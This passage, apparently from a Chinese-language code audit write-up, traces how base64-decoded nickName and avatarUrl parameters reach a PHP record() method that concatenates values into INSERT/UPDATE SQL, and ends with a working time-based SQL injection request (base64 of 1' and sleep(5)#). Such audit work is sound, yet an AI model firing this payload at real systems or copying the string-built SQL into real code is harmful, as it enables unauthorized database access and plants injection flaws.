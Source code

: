 可以看到该方法通过base64解密`nickName`和`avatarUrl`参数，构建了uarr数组，并且传入到$db->record()，感觉这个函数应该会做数据库查询，跟进看看

```php
public function record($arr, $where='')
{
    return $this->db->record($this->table, $arr, $where);
}
```

其实是调用了mysql.php的record方法

```php
public function record($table,$array,$where='')
{
   $addbool   = true;
   if(!$this->isempt($where))$addbool=false;
   $cont     = '';
   if(is_array($array)){
      foreach($array as $key=>$val){
         $cont.=",`$key`=".$this->toaddval($val)."";
      }
      $cont  = substr($cont,1);
   }else{
      $cont  = $array;
   }
   $table = $this->gettables($table);
   if($addbool){
      $sql="insert into $table set $cont";
   }else{
      $where = $this->getwhere($where);
      $sql="update $table set $cont where $where";
   }
   return $this->tranbegin($sql);
}
```

将数组键值对依次插入SQL语句插入或是更新数据，我们调用该方法最后的sql语句为

```sql
insert into $table set $key = $value ... where `openid`=xxx;   //这里的$value变量即我们传入的$nickName参数值
```

于是我们构造payload为

```php
/index.php?m=openxxx|openapi&d=xxx&a=data&ajaxbool=0&nickName=MScgYW5kIHNsZWVwKDUpIw==

nickName为编码后的1' and sleep(5)#
```
